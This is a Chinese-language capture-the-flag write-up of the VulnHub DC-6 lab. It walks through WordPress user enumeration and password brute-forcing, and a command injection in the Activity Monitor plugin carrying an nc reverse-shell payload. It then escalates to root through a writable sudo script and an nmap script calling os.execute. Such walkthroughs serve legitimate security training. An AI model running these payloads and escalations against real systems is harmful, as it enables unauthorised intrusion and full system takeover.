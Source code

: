 # DC: 6

2024-5-17 https://vulnhub.com/entry/dc-6,315/

difficulty: Intermediate

## IP

192.168.5.27

## Scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 3e52cece01b694eb7b037dbe087f5ffd (RSA)
|   256 3c836571dd73d723f8830de346bcb56f (ECDSA)
|_  256 41899e85ae305be08fa4687106b415ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
```

开放 2 个端口，根据靶场描述，需要将特定域名添加到 hosts 文件中：192.168.5.27 wordy

访问 http://wordy/ 看看有什么内容，是一个 WordPress 网站，按照往常惯例，应该是需要找到登陆 wp 后台的用户名和密码，先扫描下目录，查看是否有隐藏的目录信息。

```
gobuster dir -u http://wordy/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip
```

但是发现的都是一些 wp 的默认页面。

使用 wpscan 搜集下用户名：

```
wpscan --url http://wordy/ -e u
```

发现：admin、mark、graham、sarah、jens

根据靶场描述，提示了我们使用的密码字典信息：cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt

使用得到的用户名和密码进行爆破：

```
wpscan --url http://wordy/ -t 20 -U users.txt -P passwords.txt
```

得到登陆 wp 后的用户凭证：Username: mark, Password: helpdesk01

使用得到的用户凭据，登陆 wp 后台管理页面，但是这个用户的权限很低，没有修改后台 php 页面的权限。

发现左侧功能菜单中有一个 Activity monitor 功能，看看这个功能上是否有一些漏洞可以利用，找到了https://www.exploit-db.com/exploits/45274 RCE 执行：

http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools 在执行 Lookup 时可以带入自己的命令，在 bp 中使用 repeater 进行 exp 构造，在输入字段中输入以下内容。

```
baidu.com;nc 192.168.5.10 8888 -e /bin/bash
```

在 kali 上监听 8888 端口，然后访问上面页面，得到反弹 shell。

查看/home 文件夹中的内容：

```
www-data@dc-6:/home$ ls -aR
.:
.  ..  graham  jens  mark  sarah

./graham:
.  ..  .bash_history  .bash_logout  .bashrc  .profile

./jens:
.  ..  .bash_history  .bash_logout  .bashrc  .profile  backups.sh

./mark:
.  ..  .bash_history  .bash_logout  .bashrc  .profile  stuff

./mark/stuff:
.  ..  things-to-do.txt

./sarah:
.  ..  .bash_logout  .bashrc  .profile
```

看样子 mark 和 jens 用户可能有提权点，看看 /home/mark/stuff/things-to-do.txt 有什么提示。

```
www-data@dc-6:/home$ cat /home/mark/stuff/things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```

根据提示可以知道系统添加了一个用户 graham:GSo7isUM1D4，尝试 su 切换到该用户，切换成功。

提示我们 Jens 有备份，查看下内容：

```
www-data@dc-6:/home/jens$ cat backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```

应该是可以以某种权限调用这个脚本，找到这个脚本的执行点。

```
graham@dc-6:/etc/cron.d$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```

提示以 jens 用户执行脚本，同时，我们能够修改 backup.sh 脚本：

```
graham@dc-6:/tmp$ ls -al /home/jens/backups.sh
-rwxrwxr-x 1 jens devs 50 Apr 26  2019 /home/jens/backups.sh
graham@dc-6:/tmp$ id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)

echo '/bin/bash' > /home/jens/backups.sh
```

用户 graham 执行：

```
sudo -u jens /home/jens/backups.sh

jens@dc-6:/tmp$ id
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
```

得到了 jens 的用户权限，继续查找提权点，看是否能到 root 权限。

```
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```

构造 exp:

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

最终得到 root 权限：

```
# uid=0(root) gid=0(root) groups=0(root)

# cat /root/theflag.txt

#

Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"'
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8)


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
